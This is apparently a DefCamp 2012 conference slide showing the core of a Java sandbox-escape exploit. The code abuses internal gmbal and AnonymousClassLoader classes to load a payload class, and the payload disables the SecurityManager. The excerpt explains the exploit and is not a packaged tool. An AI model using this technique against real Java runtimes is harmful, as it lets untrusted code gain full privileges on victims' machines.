

DEFCAMP
2012
Cool parts
import com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory;
import com.sun.org.glassfish.gmbal.util.GenericConstructor;
GenericConstructor genericconstructor = new GenericConstructor(Object.class, "sun.invoke.anon.AnonymousClassLoader", new Class[0]);
            Object obj = genericconstructor.create(new Object[] {});
			Method method = ManagedObjectManagerFactory.getMethod(obj.getClass(), "loadClass", new Class[] { byte[].class });
            Class class1 = (Class)method.invoke(obj, new Object[] {
                //byte_payload
                buffer
            });
            class1.newInstance();
            //System.out.println("SecurityManager:" + System.getSecurityManager());
            //class1.getMethod("r", new Class[0]).invoke(class1, new Object[0]);
            Payload.main(null);
            //Runtime.getRuntime().exec("calc.exe");
 public MyPayload()
 {
	AccessController.doPrivileged(this);
}

public Object run() throws Exception
 {
        System.setSecurityManager(null);
        return null;
}